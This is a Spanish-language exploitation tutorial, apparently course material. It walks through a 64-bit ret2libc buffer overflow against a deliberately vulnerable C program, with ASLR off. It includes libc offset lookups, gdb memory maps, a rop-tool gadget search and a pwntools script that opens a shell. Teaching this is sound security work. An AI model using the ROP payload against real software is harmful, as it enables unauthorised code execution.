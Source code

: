 # Explicación de exploit 64 bits

Este ejercicio ilustra cómo se haría una explotación en un entorno de 64 bits. 
Importante: Se va a hacer con ASLR desactivado. En el ejercicio de format string (el reto), tendremos ASLR activo y veremos cómo hacer bypass. 

## Código fuente

El código fuente es: 

```c
#include<stdio.h> 
#include<string.h> 

void vuln(char *cadena)
{ 
  char buf[100]; 
  strcpy(buf,cadena); 
  printf("Input was: %s\n",buf); 
}
void main(int argc, char *argv[]) 
{
  vuln(argv[1]);
}
```



#### Análisis de la vulnerabilidad. 

La vulnerabilidad es la típica de buffer overflow. Tendremos que encontrar el offset. Tenemos un offset de 120 bytes. 


#### Búsqueda de las direcciones en libc  

Tenemos que encontrar las direcciones para ejecutar  `system ("/bin/sh")`. Como nuestro ejecutable no contiene la llamada Para eso inspeccionamos la libc: 

```
# ldd vuln
        linux-vdso.so.1 (0x00007ffff7ffd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7e14000)
        /lib64/ld-linux-x86-64.so.2 (0x0000555555554000)

# objdump -M intel -d /lib/x86_64-linux-gnu/libc.so.6 > dump  # Volcamos el desensamblado (formato Intel) en el fichero dump

# strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh  # Buscamos /bin/sh y la encontramos en el offset 0x183cee
 183cee /bin/sh
 
# cat dump | grep system
0000000000046ff0 <__libc_system@@GLIBC_PRIVATE>:
   46ff3:       74 0b                   je     47000 <__libc_system@@GLIBC_PRIVATE+0x10>
0000000000129b50 <svcerr_systemerr@@GLIBC_2.2.5>:
  129ba7:       75 05                   jne    129bae <svcerr_systemerr@@GLIBC_2.2.5+0x5e> 

```
Anotamos los siguientes offsets: 

`system:  0x46ff0` 

`/bin/sh: 0x183cee`

Ahora sumamos dicho offset a la dirección base en la que se carga la LIBC (la comprobamos con gdb, dado que no cambiará porque no está habilitado el ASLR): 

```
root@kali:~/bufferOverflow/stackOverflow/x64# gdb -q vuln
Reading symbols from vuln...done.
gdb-peda$ b main 
Breakpoint 1 at 0x1154: file vuln.c, line 7.
gdb-peda$ run
gdb-peda$ vmmap
Start              End                Perm      Name
0x0000555555554000 0x0000555555555000 r--p      vuln
0x0000555555555000 0x0000555555556000 r-xp      vuln
0x0000555555556000 0x0000555555557000 r--p      vuln
0x0000555555557000 0x0000555555558000 r--p      vuln
0x0000555555558000 0x0000555555559000 rw-p      vuln
0x00007ffff7def000 0x00007ffff7e14000 r--p      /lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7e14000 0x00007ffff7f5b000 r-xp      /lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7f5b000 0x00007ffff7fa4000 r--p      /lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fa4000 0x00007ffff7fa5000 ---p      /lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fa5000 0x00007ffff7fa8000 r--p      /lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fa8000 0x00007ffff7fab000 rw-p      /lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fab000 0x00007ffff7fb1000 rw-p      mapped
0x00007ffff7fd0000 0x00007ffff7fd3000 r--p      [vvar]
0x00007ffff7fd3000 0x00007ffff7fd5000 r-xp      [vdso]
0x00007ffff7fd5000 0x00007ffff7fd6000 r--p      /lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7fd6000 0x00007ffff7ff4000 r-xp      /lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ff4000 0x00007ffff7ffc000 r--p      /lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p      /lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p      /lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p      mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]

```

Dirección de carga de libc: 

`libc_base = 0x00007ffff7def000`



### Encontrando un gadget

Finalmente, tenemos que encontrar un gadget para poder cargar en RDI la información correspondiente al parámetro para llamar a `system`. 

Vamos instalar rop-tool. Para ello, hacemos (está en el script de install en el repositorio): 

```
# apt-get install libcapstone-dev
# cd
# git clone https://github.com/t00sh/rop-tool.git
# cd rop-tool; make; export PATH=$PATH:/root/rop-tool
```

Ahora buscamos gadgets que sean útiles para cargar el valor de `/bin/sh` en RDI: 

```
# rop-tool gadget libc.so.6 > gadgets
# cat gadgets | grep rdi
 0x000000000002658e -> pop rdi; ret ;
 ...
```

Por tanto, tenemos el offset del gadget que estamos buscando: 

`offset_pop_rdi = 0x2658e`

### Desarrollo del exploit

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *
# Definición de las direcciones (ver arriba)
libc_base = 0x00007ffff7def000
system_addr = libc_base + 0x46ff0
binsh_addr = libc_base + 0x183cee
pop_rdi = libc_base + 0x2658e

log.info ("system: " + str(hex(system_addr)))
log.info ("binsh: " + str(hex(binsh_addr)))
log.info ("pop_rdi: " + str(hex(pop_rdi)))
pause()

p = process ("./vuln")

# Creación del payload (técnica ROP)
payload = ""
payload += "A"*120
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)

# Envío del payload
p.sendline(payload)
p.recv()
p.interactive()
```


